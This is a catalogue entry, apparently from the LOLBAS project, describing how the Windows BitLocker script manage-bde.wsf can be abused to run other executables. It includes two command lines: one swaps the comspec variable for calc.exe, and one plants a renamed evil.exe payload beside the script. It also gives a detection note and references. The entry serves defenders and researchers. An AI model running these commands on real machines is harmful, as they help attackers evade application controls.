 ```yaml
---
Name: Manage-bde.wsf
Description: Script for managing BitLocker
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: set comspec=c:\windows\system32\calc.exe & cscript c:\windows\system32\manage-bde.wsf
    Description: Set the comspec variable to another executable prior to calling manage-bde.wsf for execution.
    Usecase: Proxy execution from script
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: copy c:\users\person\evil.exe c:\users\public\manage-bde.exe & cd c:\users\public\ & cscript.exe c:\windows\system32\manage-bde.wsf
    Description: Run the manage-bde.wsf script with a payload named manage-bde.exe in the same directory to run the payload file.
    Usecase: Proxy execution from script
    Category: Execute
    Privileges: User
    MitreID: T1216
    MitreLink: https://attack.mitre.org/wiki/Technique/T1216
    OperatingSystem: Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\manage-bde.wsf
Code_Sample:
  - Code:
Detection:
  - IOC: Manage-bde.wsf should normally not be invoked by a user
Resources:
  - Link: https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
  - Link: https://twitter.com/bohops/status/980659399495741441
  - Link: https://twitter.com/JohnLaTwC/status/1223292479270600706
Acknowledgement:
  - Person: Jimmy
    Handle: "@bohops"
  - Person: Daniel Bohannon
    Handle: "@danielbohannon"
  - Person: John Lambert
    Handle: "@JohnLaTwC"
---
```

